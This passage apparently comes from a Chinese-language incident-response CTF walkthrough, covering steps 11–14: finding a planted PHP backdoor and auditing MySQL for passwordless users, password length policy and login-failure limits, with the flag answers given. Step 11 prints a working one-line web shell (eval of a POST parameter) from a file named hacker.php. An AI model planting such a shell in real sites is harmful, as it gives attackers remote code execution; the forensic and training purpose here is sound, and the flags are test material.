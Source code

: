 11.已知相应的WEB恶意端口，提交其隐藏文件中flag

在上图中的hacker.php中有

```
<?php eval($_POST['7815696ecbf1c96e6894b779456d330e']); ?>
```

**答案：flag{7815696ecbf1c96e6894b779456d330e}**

### **步骤十二**

12.结合相关知识，提交MySQL存在空口令风险的用户名，多个用户名已+连接

我这里使用的是数据库连接工具datagrip，可以直接打开mysql数据库中的user表，查看authentication字段为空的用户即可，或者使用以下命令

```
select User,authentication_string  from mysql.user;
```

![](./images/image-6.png)

可以看到yunwei是没有密码的

**答案：flag{yunwei}**

### 步骤十三

13.结合相关知识，对MySQL密码复杂度查询到的最小长度进行提交

```
SHOW VARIABLES LIKE 'validate_password%';

#查到validate_password.length的值为8
```

**答案：flag{8}**

### 步骤十四

14.结合相关知识，对MySQL登录最大失败次数查询并提交

```
show variables like '%connection_control%';

#connection_control_failed_connections_threshold     3
```
